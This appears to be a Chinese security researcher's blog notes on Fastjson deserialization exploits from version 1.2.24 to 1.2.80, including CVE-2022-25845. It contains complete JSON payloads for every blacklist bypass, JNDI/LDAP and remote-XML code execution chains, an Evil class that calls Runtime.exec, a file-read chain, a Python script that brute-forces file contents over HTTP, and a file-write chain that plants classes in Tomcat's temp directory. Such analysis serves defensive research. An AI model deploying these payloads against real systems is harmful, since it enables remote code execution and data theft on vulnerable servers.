做个总结，忘了捡得快
1.2.24~1.2.47
1.2.24-1.2.47（绕过黑名单的poc 都需开启autoTypeSupport 用于返回class，关闭throw
1.2.24
两个常用poc，无过滤
-
TemplatesImpl 反序列化
-
JdbcRowSetImpl 反序列化
1.2.25~1.2.41
增加了黑/白名单检测，但是再最后loadClass()时，会对我们传入的class进行L和;的截取再加载class （Lxxx;->xxx）
导致可以通过L;绕过前面的黑名单检测，最后加载时再截取及可以加载我们想要的class，从而绕过黑名单
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); //开启autoTypeSupport
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://127.0.0.1:1389/g0tvin","autoCommit":true}
1.2.42
在checkAutoType最开始时及会对class进行一次L;的截取，然后进行黑名单检测再loadClass()，但是这个截取只会进行一次，所以可以双写L;进行绕过，LLxxx;;
// poc
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); //开启autoTypeSupport
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://127.0.0.1:1389/g0tvin","autoCommit":true}
1.2.43
在此版本中,checkAutoType对LL进行了判断，如果类以LL开头，则直接抛出异常
但是在loadClass()中除了L;的截取，会有对[开头的截取，所以我们用[进行绕过，但是直接用会存在报错，根据报错填上对应字符{即可
// poc
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); //开启autoTypeSupport
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://127.0.0.1:1389/g0tvin","autoCommit":true}
1.2.44
- 修复了
[的绕过，在checkAutoType中进行判断如果类名以[开始则直接抛出异常
<1.2.47(通杀!!!)
无需开启autoTypeSupport
简述：通过
Class.class对应的deserializer反序列化，实现恶意class的加载和map存储，然后再通过@type触发，从map中获取存储的class完成恶意class的获取，这个过程完全避免了autoType的黑白名单检测
{
"1": {
"@type": "java.lang.Class",
"val": "com.sun.rowset.JdbcRowSetImpl"
},
"2": {
"@type": "com.sun.rowset.JdbcRowSetImpl",
"dataSourceName": "ldap://127.0.0.1:1389/g0tvin",
"autoCommit": true
}
}
初始化时会给deserializers存入一些类型

所下面这里会找到Class.class

然后return class，再对对应的deserializer进行反序列化

而deserialze()中会对val设置的值进行loadClass()

并且加载成功会将其put到mappings中（cache默认就是true）,没错这里mappings就是getClassFromMapping()中获取的map，所以我们只需要再@type调用jdbc即可（这里因为是没开启autoTypeSupport，所以不会进入第一个for黑白名单检测，而通过getClassFromMapping()获取到class后，有if判断进行return class，不再进行后续代码，及实现了没有黑名单检测）


public static Class<?> getClassFromMapping(String className) {
return (Class)mappings.get(className);
}
1.2.48~1.2.68
1.2.48
- 在
MiscCodec中修改了cache的默认值，修改为false，并且对TypeUtils.loadClass中的mapping.put做了限制
在此版本中新增了一个
safeMode功能，如果开启的话，将会直接抛出异常，完全杜绝了autoTypeSupport的绕过这里还存在一些黑名单绕过（需要开启autoTypeSupport
1.2.67分析一条链子
https://www.anquanke.com/post/id/232774#h3-16
org.apache.shiro.jndi.JndiObjectFactory 绕过黑名单 需要开启AutoTypeSupport（不然没地方加载class）
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
String a67="{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\",\"resourceName\":\"ldap://localhost:1389/Exploit\",\"instance\":{\"$ref\":\"$.instance\"}}";
JSON.parse(a67);
这里通过
setResourceName设置jndi恶意vps，然后getInstance触发jndi请求
"instance":{}这里不能这样使用，因为public T getInstance() {返回值类型不继承自Collection.class Map AtomicBoolean AtomicInteger AtomicLong 这里T调试类型是java.lang.Object但是可以通
$ref来触发，那么看看$ref是怎么处理的
循环引用 $ref
https://github.com/alibaba/fastjson/wiki/%E5%BE%AA%E7%8E%AF%E5%BC%95%E7%94%A8
| 语法 | 描述 |
|---|---|
| {"$ref":"$"} | 引用根对象 |
| {"$ref":"@"} | 引用自己 |
| {"$ref":".."} | 引用父对象 |
| {"$ref":"../.."} | 引用父对象的父对象 |
| {"$ref":"$.members[0].reportTo"} | 基于路径的引用 |
$ref在反序列化json时，会进行一些初始化设置值，便于后续调用

value是反序列化完的对象，然后handleResovleTask进行ref的调用

调用前，还会初始化一些fieldInfo，使一些本来不能调用方法，可以调用，比如这里是通过computeGetters初始getter方法的。但是这里就不限制返回值了，所以getInstance得以被添加
这里满足长度>=4,第四位数为大写基本上就可以添加到filedInfo里面了

"instance":{"$ref":"$.instance"}
然后再通过$ref去获取{}(整个对象)下"instance"，从而触发获取对象的instance属性，及调用fieldInfo中对应的getter方法，获取instance值，触发getInstance得以利用

<1.2.68(expectClass
在不开启autoTypeSupport的情况下，还有一个点可以利用expectClass，加载恶意class后满足下面两个条件就能返回class
- 传入
expectClass不为null - 恶意class继承
expectClass

正常即使绕过黑名单也需要开启autoTypeSupport，保证class的返回

具体利用查找
而正常调用，我们的expectClass都是null，所以我们可以查找checkAutoType其他地方的调用
clazz = config.checkAutoType(typeName, null, lexer.getFeatures());
发现有2处，且都是反序列化的时候调用，分别是JavaBeanDeserializer，ThrowableDeserializer

及我们需要取看怎么获取这两个serializer，那就是去分析getDeserializer()呗，我们的expectClass不属于上面类时会进入到createJavaBeanDeserializer()，同时看到上方else if，expectClass继承与Throwable.class即可返回ThrowableDeserializer反序列化器
else if (Throwable.class.isAssignableFrom(clazz)) {
derializer = new ThrowableDeserializer(this, clazz);

可以看到经过createJavaBeanDeserializer()一系列处理后，可以返回JavaBeanDeserializer反序列化器，后续则会调用

然后这里json指针继续向后读取，key为@type时进入if，并读取值作为typeName传入config.checkAutoType(typeName, expectClass, lexer.getFeatures())；

到这里就完成了expectClass的传入了，然后想要完成return只需要，继承于expectClass，且不是黑名单即可

expectClass查找
上面分析，我们知道怎么利用这个expectClass来加载我们恶意class了，但是还需要找到一个expectClass来return 自己的class，并进入到createJavaBeanDeserializer()
无autoTypeSupport
首先无autoTypeSupport 完成 return class，及分析checkAutoType()逻辑
可以看到无autoTypeSupport和expectClass，会先在mappings和deserializers查找然后返回class
clazz = TypeUtils.getClassFromMapping(typeName);
clazz = deserializers.findClass(typeName);

继续往下到第二次黑/白名单检测，使得autoTypeSupport为false也会进行waf检测，但是可以发现是白名单的话则会直接loadclass并返回class

然后继续往下就还有最后一处，继承于JSONType.class也会return class
if (clazz != null) {
if (TypeUtils.getAnnotation(clazz,JSONType.class) != null) {
return clazz;
}
补充，高版本才有internalWhite，有个白名单，属于白名单的会加载，然后后面代码会return class
if (internalWhite) {
clazz = TypeUtils.loadClass(typeName, defaultClassLoader, true);
}
return 小结
总结下无autoTypeSupport可以return class的点
-
Mappings，deserializers
TypeUtils.getClassFromMapping(typeName); clazz = deserializers.findClass(typeName); -
checkAutoType里白名单（默认为空
-
继承JSONType.class
-
internalWhite 白名单
怎么找
然后要找JavaBeanDeserializer的话，deserializers就可以排除了，因为他init没有put对应的JavaBeanDeserializer（ThrowableDeserializer有
mappings在addBaseClassMappings()进行初始化，可以更直观看到哪些class可以利用

然后看到Object.class这不是随便利用？（1.2.42前面看的代码逻辑）
然后看了下1.2.67做了一些限制，expectClass不能是下方这些类，不然expectClassFlag = false;->不能加载和返回class（这样处理也是为了限制利用范围，因为下方继承类很多
Object.class Serializable.class Cloneable.class Closeable.class EventListener.class Iterable.class Collection.class
然后1.2.67代码上相对于之前版本，并不会都进行loadClass()了，改为下方这种方式
if (autoTypeSupport || jsonType || expectClassFlag) { //jsonType 就是继承JSONType.class
boolean cacheClass = autoTypeSupport || jsonType;
clazz = TypeUtils.loadClass(typeName, defaultClassLoader, cacheClass);
}
也就是从
mappings和JSONType.class以及internalWhite里找expectClass
Evil继承AutoCloseable就行
String obj="{\"@type\":\"java.lang.AutoCloseable\"{\"@type\":\"Evil\",\"cmd\":\"calc\"}}";
JSON.parseObject(obj);
jdbc gadgets

1.2.68小结
- 恶意类不在黑名单内
- 恶意类的父类（exceptClass例如
AutoCloseable）不在黑名单内 且 要能本身能return class并能获取JavaBeanDeserializerorThrowableDeserializer反序列化加载器 - 恶意类不能是抽象类
- 恶意类中的
getter/setter/static block/constructor能触发恶意操作
修复
1.2.69新增了黑名单可以参考https://github.com/LeadroyaL/fastjson-blacklist
AutoCloseable就被添加到黑名单了，所以后续去查找Throwable期望类的利用
1.2.73~1.2.80
1.2.73的改动，允许对任意类型的field进行实例化，增加了攻击面。下面的利用即是通过这个
特性
下图是1.2.67的代码，可以看到是没有field进行实例化，而是直接获取json反序列化的结果

利用原理
利用思路就在下图，通过**putDeserializer**将这3点地方存入deserializers缓存中，再次@type调用，即可直接获得class，而不会throw了

参照y4扩展的一个demo
public class MyException extends Throwable {
private MyClass clazz;
public Evil evil;
public void setClazz(MyClass clazz) {
this.clazz = clazz;
}
public MyException(try1 trytry) {
trytry.tryname="trytry";
}
public MyException() {
}
}
public class MyClass {
public String name;
}
public class try1 {
public String tryname;
}
public class Evil implements AutoCloseable {
private String cmd;
public void setCmd(String cmd) throws Exception{
this.cmd = cmd;
Runtime.getRuntime().exec(this.cmd);
}
}
poc
d这个地方是用于构造方法的参数类型获取，第一次可以去掉（因为无参和有参构造方法，默认会选择无参
{
"a": {
"@type": "java.lang.Exception",
"@type": "MyException",
"trytry": {},
"clazz": {},
"evil": {}
},
"b": {
"@type": "MyClass",
"name": "asd"
},
"c": {
"@type": "Evil",
"cmd": "calc"
},
"d": {
"@type": "try1",
"tryname": "tttttry"
}
}
流程的话，直接到Exception获得ThrowableDeserializer并执行deserialze()这里吧
然后这里会去一个for循环处理json中key的值做对应处理，
@type则去加载对应类，这里就是MyException- 然后是
String进行下方判断，不是elseif中字符，则存储到otherValues中，（clazz，evil）

然后otherValues不为空，则会getDeserializer()获取上面的加载的class，而TypeUtils.cast这里就实例化filed，里面执行了putDeserializer（也就是利用思路的关键）

这里还需要关注下exBeanDeser.getFieldDeserializer(key);这里，MyException只有 有参自构方法时，这里只会获取有参自构方法的参数类型，另外两种则不会获取（另外两种在无参自构时会获取）(下图需要将MyException无参自构方法注释

跟进里面最后在castToJavaBean()中调用config.getDeserializer()->putDeserializer()，返回的反序列化加载器还会调用createInstance()进行反序列化，触发static和自构方法code

putDeserializer()

只有
有参构造方法的时候，会还原储存对应方法的参数类型无构造方法 or 存在
无参自构方法时，会还原另外两种情况类型
why public filed
这里要一直追随到fields的初始化，这里只会获取public 添加到list中

gadget
jdbc
依赖
<dependency>
<groupId>com.alibaba</groupId>
<artifactId>fastjson</artifactId>
<version>1.2.80</version>
</dependency>
<dependency>
<groupId>org.python</groupId>
<artifactId>jython</artifactId>
<version>2.7.0</version>
</dependency>
<dependency>
<groupId>org.postgresql</groupId>
<artifactId>postgresql</artifactId>
<version>42.3.1</version>
</dependency>
<dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-context</artifactId>
<version>5.3.28</version>
</dependency>
参考的y4
{
"a":{
"@type":"java.lang.Exception",
"@type":"org.python.antlr.ParseException",
"type":{}
},
"b":{
"@type":"org.python.core.PyObject",
"@type":"com.ziclix.python.sql.PyConnection",
"connection":{
"@type":"org.postgresql.jdbc.PgConnection",
"hostSpecs":[
{
"host":"127.0.0.1",
"port":2333
}
],
"user":"user",
"database":"test",
"info":{
"socketFactory":"org.springframework.context.support.ClassPathXmlApplicationContext",
"socketFactoryArg":"http://127.0.0.1:8090/exp.xml"
},
"url":""
}
}
}
这个利用很猛啊
流程：
put Exception
加载ParseException（expectClass：Exception
触发ParseException#setType –> put PyObject
加载PyConnection（expectClass PyObject
触发PyConnection自构方法 –> put Connection //这里还没到调用自构方法那不，这里要先对值进行
还原即"connection":{…}，而这里会先处理connection，所以加载PgConnection时，Connection 为expectClass加载PgConnection（expectClass Connection //
PGConnection是另一个类，所以这里要利用Connection触发PgConnection自购方法 –> jdbc rce
那能不能这样构造呢，这样貌似更好理解，理论上是可以的，只是connection这个参数这个值为下面这个的话，
PyConnection自购的时候会异常{ “a”:{… }, “b”:{…. “connection”:{} }, “c”:{ “@type”:“java.sql.Connection”, “@type”:“org.postgresql.jdbc.PgConnection”, … } }
关于field进行实例化这个特性JavaBeanDeserializer同样存在，初始化完参数后PgConnection调用自购方法，触发jdbc

修复
- https://github.com/alibaba/fastjson/commit/35db4adad70c32089542f23c272def1ad920a60d
- https://github.com/alibaba/fastjson/commit/8f3410f81cbd437f7c459f8868445d50ad301f15
除了黑白名单的变化以外就是直接端掉异常类这条路。
{kind=link}
并且在加类缓存时多了一次autotype判断
expectClass和jsonType都需要开启

CVE-2022-25845
https://github.com/luelueking/CVE-2022-25845-In-Spring
https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf
这里用的@1ue师傅的poc，跟议会上的poc构造可能有点差异吧，不过利用点是一样的
这个利用在1.2.80里我觉得是
实用性很好的poc了，这里主要需要3个依赖吧
- commons-io //用来读写文件
- fastjson //不用多说，触发利用
- springboot //这个其实是因为会启动时，会生成一个
tomcat的临时目录，而TomcatEmbeddedWebappClassLoader加载Class时，会在上述目录对应路径下查找class文件，存在的话就会加载这个class文件触发static块代码执行所以这三个依赖就造就这个amazing的利用
- put java.io.InputStream 便于后续的调用
- 因为tomcat这个目录名，并不是固定的，而是随机的，但是在java中
file协议可以用来遍历目录所以这里我可以通过file:///tmp找到生成tomcat临时目录的名字- 及写入构造好的class文件到tomcat临时目录下，且这个可以解决目录创建的问题
- 通过fastjson触发class加载，触发static{}执行 //这里fastjson加载类时，会用到
TomcatEmbeddedWebappClassLoader加载，所以能加载tomcat临时目录的class。都是环环相扣的利用，挺有意思的
Step1: put java.io.InputStream
{
"a": "{ \"@type\": \"java.lang.Exception\", \"@type\": \"com.fasterxml.jackson.core.exc.InputCoercionException\", \"p\": { } }",
"b": {
"$ref": "$.a.a"
},
"c": "{ \"@type\": \"com.fasterxml.jackson.core.JsonParser\", \"@type\": \"com.fasterxml.jackson.core.json.UTF8StreamJsonParser\", \"in\": {}}",
"d": {
"$ref": "$.c.c"
}
}
这里解释下poc构造写法吧，可以看到用的是"a":"..."这种而不是"a":{...}，为什么这样构造呢（测试两种poc都是能put成功的），感觉是微操(就是不报错，记录日志的时候是正常的，可以看到作者的poc是200，而通常的利用是500（如果明白这个特征找日志就很好定位
200

500

$ref的利用
简述：通过
parse.parse()会还原成一个map{String,String},然后parser.handleResovleTask(value);会去查找其中的$ref并进行调用，$.a很好理解就是获取到{“a”:"…“对应的字符串，而$.a.a就是利用的关键，在寻找时会判断$.a的类型，是String的话会进行JSON.parse()反序列化其值，（正常情况是得到一个map然后再在这个map中获取$.a.{a}{}中这个值(这里是a)。而我们这JSON.parse()会catch（这里相关处理是{}跳过），然后后续处理也没赋上值–>最后return null。$.a.a即是null，so：这里$.a.a可以是
$.a.{任何值}，只是用来触发$.a的反序列化
handleResovleTask调用$ref

第一次进入getPropertyValue()，查找$.a，当前currentObject对应整个json{“a”,…}(即$)

第二次进入getPropertyValue()，查找$.a.a，currentObject对应$.a，JSON.parse()触发利用

Step2：文件读取
getBom()
看这个之前可以先看看这篇，核心利用getBom()
https://mp.weixin.qq.com/s/esjHYVm5aCJfkT6I1D0uTQ
利用需要知道
getBom()的返回值，然后浅蓝这里举例了几种可能的场景感觉挺不错的
一处修改昵称name的功能，通过ref将
getBom()的返回值赋予name，然后查看name值，判断读取内容同上，但是判断赋值为
空时报错，不为空正常，布尔判断了没有上述这种好用的
name观察点了，通过类型错误导致fastjson报错，根据报错判断，"java.lang.String"{"$ref":"$.abc.BOM[0]"}，null时不报错，比对成功时返回类型错误报错没有任何报错回显时，可以在
类型判断后面增加一个dnslog，报错时异常导致后面的dnslog请求不了（但是实战的话感觉很鸡肋）不过这种思路在
版本探测效果还不错，就是引用几个关键版本点形成的poc进行dnslog请求（具体可以看@su18总结的
{
"a": {
"@type": "java.io.InputStream",
"@type": "org.apache.commons.io.input.BOMInputStream",
"delegate": {
"@type": "org.apache.commons.io.input.BOMInputStream",
"delegate": {
"@type": "org.apache.commons.io.input.ReaderInputStream",
"reader": {
"@type": "jdk.nashorn.api.scripting.URLReader",
"url": "file:///C:/Windows/win.ini"
},
"charsetName": "UTF-8",
"bufferSize": "1024"
},
"boms": [
{
"charsetName": "UTF-8",
"bytes": [59,32,102]
}
]
},
"boms": [
{
"charsetName": "UTF-8",
"bytes": [1]
}
]
},
"b": {"$ref":"$.a.delegate"}
}


通过爆破比对位数据进行获取的
在
parse.parse()反序列化后，设置Response值时去获取BOM值，触发getBOM()，然后会和in(ReaderInputStream)读取到的值和原本设置的boms进行比对，全部一致则会返回其byte[]，否则返回null这也就能通过
Response判断文件内容了


但是其实没必要多套一层啊，本身就能通过$ref触发getBom()，且能返回对应回显
{
"a": {
"@type": "java.io.InputStream",
"@type": "org.apache.commons.io.input.BOMInputStream",
"delegate": {
"@type": "org.apache.commons.io.input.ReaderInputStream",
"reader": {
"@type": "jdk.nashorn.api.scripting.URLReader",
"url": "file:///C:/Windows/win.ini"//${file}
},
"charsetName": "UTF-8",
"bufferSize": "1024"
},
"boms": [
{
"charsetName": "UTF-8",
"bytes": [59,32,102]//${data}
}
]
},
"b": {"$ref":"$.a.BOM"}
}

因为需要爆破目录，手测有点麻烦，还是让ai写了个脚本
from concurrent.futures import ThreadPoolExecutor
import requests
import sys
session = requests.Session()
def send_request(target_url, char_code):
boundary = "----WebKitFormBoundaryROOGnnZjMDt56Gw0"
headers = {
"Host": "127.0.0.1:8080",
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
"Connection": "close",
"Content-Type": f"multipart/form-data; boundary={boundary}",
}
payload = (
f'--{boundary}\r\n'
'Content-Disposition: form-data; name="json"\r\n\r\n'
'{\n'
' "a": {\n'
' "@type": "java.io.InputStream",\n'
' "@type": "org.apache.commons.io.input.BOMInputStream",\n'
' "delegate": {\n'
' "@type": "org.apache.commons.io.input.ReaderInputStream",\n'
' "reader": {\n'
' "@type": "jdk.nashorn.api.scripting.URLReader",\n'
f' "url": "{target_url}"\n'
' },\n'
' "charsetName": "UTF-8",\n'
' "bufferSize": "1024"\n'
' },\n'
' "boms": [\n'
' {\n'
' "charsetName": "UTF-8",\n'
f' "bytes": [{char_code}]\n'
' }\n'
' ]\n'
' },\n'
' "b": {"$ref":"$.a.BOM"}\n'
'}\r\n'
f'--{boundary}--\r\n'
)
try:
response = session.post(
"http://127.0.0.1:8080/json",
headers=headers,
data=payload,
timeout=5
)
return response.text
except Exception as e:
print(f"Error sending request: {e}")
return None
common_codes = list(range(48, 58)) + list(range(65, 91)) + list(range(97, 123))
other_codes = [c for c in range(256) if c not in common_codes]
ordered_codes = common_codes + other_codes
# 优先常见字符，然后测试其他字符
def brute_force_chars(target_url):
valid_chars = ""
with ThreadPoolExecutor(max_workers=50) as executor: # 可根据网络情况调整线程数
while True:
futures = {}
for code in ordered_codes:
full_code = valid_chars + str(code)
futures[executor.submit(send_request, target_url, full_code)] = code
found = False
for future in futures:
code = futures[future]
try:
response_text = future.result()
if response_text and '"b":null' not in response_text:
valid_chars += str(code) + ","
print(valid_chars)
found = True
break
except:
continue
if not found:
bytes_list = [int(b) for b in valid_chars.split(",") if b.strip()]
print("Final result:", "".join(chr(b) for b in bytes_list))
exit(0)
if __name__ == "__main__":
# if len(sys.argv) != 2:
# print("Usage: python exploit.py <target_url>")
# print("Example: python exploit.py file:///C:/Windows/win.ini")
# sys.exit(1)
# target_url = sys.argv[1]
brute_force_chars("file:///C:/Users")
# brute_force_chars(target_url)

但是在window环境下感觉有点灾难，因为我本地环境下Temp的目录太多了，查看了翻代码希望达到.../Temp/tomcat.*匹配tomcat开头文件（无果）
Step3: 写入文件
这里我加了几处charsetName，不然我环境会报错缺少charset Name
{
"a": {
"@type": "java.io.InputStream",
"@type": "org.apache.commons.io.input.AutoCloseInputStream",
"in": {
"@type": "org.apache.commons.io.input.TeeInputStream",
"input": {
"@type": "org.apache.commons.io.input.CharSequenceInputStream",
"cs": {
"@type": "java.lang.String"
"1234",//${shellcode}
"charset": "iso-8859-1",
"bufferSize": 4 //${size}
},
"branch": {
"@type": "org.apache.commons.io.output.WriterOutputStream",
"writer": {
"@type": "org.apache.commons.io.output.LockableFileWriter",
"file": "./test3",//${filename}
"charsetName": "UTF-8",
"charset": "iso-8859-1",
"append": true
},
"charsetName": "UTF-8",
"charset": "iso-8859-1",
"bufferSize": 1024,
"writeImmediately": true
},
"closeBranch": true
}
},
"b": {
"@type": "java.io.InputStream",
"@type": "org.apache.commons.io.input.ReaderInputStream",
"reader": {
"@type": "org.apache.commons.io.input.XmlStreamReader",
"inputStream": {
"$ref": "$.a"
},
"httpContentType": "text/xml",
"lenient": false,
"defaultEncoding": "iso-8859-1"
},
"charsetName": "iso-8859-1",
"bufferSize": 1024
},
"c": {}
}
利用图


利用调用如上，细说感觉也描述不出来，然后有几个点要说下
LockableFileWriterfile这里初始化时，会帮我们创建目录，一般情况下tomcat-docbase.xxx这个目录下是没有WEB-INF/classes,这个目录需要我们来创建，而这里LockableFileWriter直接解决了这个问题

- poc 中 $ref
"@type": "org.apache.commons.io.input.XmlStreamReader",
"inputStream": {
"$ref": "$.a"
}
在XmlStreamReader初始化时，inputStream可以直接获取到$.a的值，而不不是等到反序列化完，在对$ref的那种调用
- 最后一个即是写入文件的坑吧，我本地调试是一次最多写入**
15**个字符，后续写入可以追加写入到文件里。但是我看@1ue的poc是20个，但是在我本地环境调试来看是不行的。
会调用2次TeeInputStream#read，第一次是用于写入，第二次是用于返回EOF达到close()文件的效果

后面发现一次写入过多时，不仅没有字符写入，写入对应的文件也操作不了（怀疑是一直处于open状态了，没close），只能写入新的文件
调试发现是没有进行close(),后续发现是跟getBOM()这里有关，注意这里的maxBomSize这个值是作为下方for的length。
接着下图1in.read()这里读取每个值，超过4个值后回到下图2中获取对应的值，每次pos会+1。count则是我们写入字符的长度。这里我们需要进入fill()（里面后续会调用TeeInputStream#read进行close()关闭流）。而这里我们可以发现如果count这里超过**15，图1for走完pos最多为15就会导致进入不了fill()**，导致没有close()
图1

图2

- 然后就是其实是需要调用两次
getBOM()的，而$ref我猜测应该只能调用一次，而XmlStreamReader初始化正好能调用两次getBOM()

Step4 加载class

看完感觉这个利用构造，细思极恐。挖掘去这个构造的佬太猛了!^!
Feature(结论):
摘取于 https://vidar-team.feishu.cn/docx/KGRNdoGJHocjE1xOEdzcxHH1n9d
- 关于getter和setter
- getter自动调用条件：
- 方法名长度大于4
- 非静态方法
- 以get开头且第四个字母为大写
- 无参数传入
- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong
- setter自动调用需要满足以下条件：
- 方法名长度大于4
- 非静态方法
- 返回值为void或者当前类
- 以set开头且第四个字母为大写
- 参数个数为1个
- getter自动调用条件：
- 如果目标类中私有变量没有setter方法，但是在反序列化时仍想给这个变量赋值，则需要使用
Feature.SupportNonPublicField参数 - fastjson 在为类属性寻找getter/setter方法时，调用函数
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()方法，会忽略_ -字符串 - fastjson 在反序列化时，如果Field类型为byte[]，将会调用
com.alibaba.fastjson.parser.JSONScanner#bytesValue进行base64解码，在序列化时也会进行base64编码
版本探测
https://github.com/su18/hack-fastjson-1.2.80
参考：
https://vidar-team.feishu.cn/docx/KGRNdoGJHocjE1xOEdzcxHH1n9d
https://www.anquanke.com/post/id/232774#h3-18
https://github.com/luelueking/CVE-2022-25845-In-Spring
https://tttang.com/archive/1579/#toc_1268
https://github.com/LeadroyaL/fastjson-blacklist
https://github.com/su18/hack-fastjson-1.2.80
https://y4er.com/posts/fastjson-1.2.80/
https://mp.weixin.qq.com/s/esjHYVm5aCJfkT6I1D0uTQ
议会
https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf
https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf